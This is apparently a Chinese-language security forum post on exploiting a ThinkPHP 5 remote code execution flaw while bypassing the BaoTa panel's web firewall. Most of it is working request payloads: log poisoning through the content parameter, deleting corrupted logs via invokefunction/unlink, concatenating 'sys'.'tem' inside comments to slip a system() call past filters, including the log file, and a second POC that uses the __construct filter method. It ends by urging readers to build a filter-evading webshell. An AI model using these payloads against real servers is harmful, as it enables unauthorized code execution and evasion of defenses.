 前言
==

在一个项目上发现了一个tp5的rce漏洞，但是有宝塔拦截了

通常宝塔拦截了后，一些system、assert等危险函数是不能用了，但可以使用tp5的函数进行文件包含

但是我遇到这个宝塔应该不是默认规则，一些whoami、id、ipconfig、&lt;?php a、等也会拦截，挺难绕过的，只好从文件包含日志下手了，这里直接将一句话木马写入日志是会被拦截的，所以只能另找方法。

RCE绕宝塔
======

### POC1

文件包含日志通常是构造语句写入日志，然后包含日志文件

```php
/index.php?s=index&content=<?php phpinfo();?>
/index.php?s=index/\think\Lang/load&file=../runtime/log/202201/21.log
```

但是很多时候我们构造语句时导致日志坏了，就不能包含了

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-36a2ab2c09307005f55d5cceae73f5abcacd4200.png)  
需要将日志删除，然后重新构造

```php
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=unlink&vars[1][]=../runtime/log/202201/21.log
```

有时候宝塔规则太狠了，发现`<?php ?>`或其它就给拦截，我们可以通过拆分进行构造语句

首先正常访问

```php
http://192.168.172.129:8808/index.php?s=index&content=test11
```

然后观察最新一条日志记录了什么

```php
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_get_contents&vars[1][]=../runtime/log/202201/21.log
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-99e4c726aa9a7877662163f620a0adec9517053b.png)

这里还要注意编码情况，这里可以看到这几处将我们请求写入了日志，并且没有编码

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-0d94a4bf2f11b59fe299dbc08d012ee954937b64.png)

然后构造一句话，就已简单的`<?php system(id);?>`为例子

通过拆分和注释相互配合

```php
<?php /*.......
.....*/$a="sys"."tem";/*......
....*/$b="id";/*.....
....*/$a($b);/*
```

将上面四句话分别插入对应位置

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-5b23b1819023a82f28fc27bb526e43b3601db3f7.png)

成功插入日志中  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-17943c38ccace880856d5d3093b48499a3e56922.png)

最后包含日志

```php
/index.php?s=index/\think\Lang/load&file=../runtime/log/202201/21.log
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-a253571d16b043a07796382bcc09be433f16c03f.png)

然后配合该技巧，构造一个能绕过宝塔的一句话木马即可。

### poc2

也就是另一种rce语句，根据poc1的思路，相同方式写入日志，错误就删日志

```php
get[]=id&_method=__construct&method=get&filter[]=system

get[]=..\runtime\log\202201\14.log&_method=__construct&method=get&filter[]=unlink

get[]=..\runtime\log\202201\14.log&_method=__construct&method=get&filter[]=think\__include_file
```